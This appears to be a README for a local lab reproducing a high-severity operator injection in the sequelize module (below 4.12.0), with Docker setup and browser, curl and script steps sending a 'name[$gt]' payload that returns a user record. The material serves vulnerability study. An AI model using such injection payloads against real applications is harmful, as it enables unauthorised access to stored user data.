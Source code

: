 # NoSQL Injection @ sequelize
- module : sequelize
- version : <4.12.0
- severity: high
- type: nosql-injection

# Installation

`docker-compose up --build`

# Lunch Attack

- ### Browser [open the browser and enter the following url]
    http://localhost:8000/api/get_user?name[%24gt]=1
- the `response` will be {"id":1,"uid":1,"name":"Doe","createdAt":"...","updatedAt":"..."}

## OR

- ### Curl [open the terminal and run the following]
    curl http://localhost:8000/api/get_user?name[%24gt]=1
- the `response` will be {"id":1,"uid":1,"name":"Doe","createdAt":"...","updatedAt":"..."}

## OR

- ### Bash [open the terminal in the root dir of this app and run the following]
    bash attack.sh
- the `response` will be {"id":1,"uid":1,"name":"Doe","createdAt":"...","updatedAt":"..."}
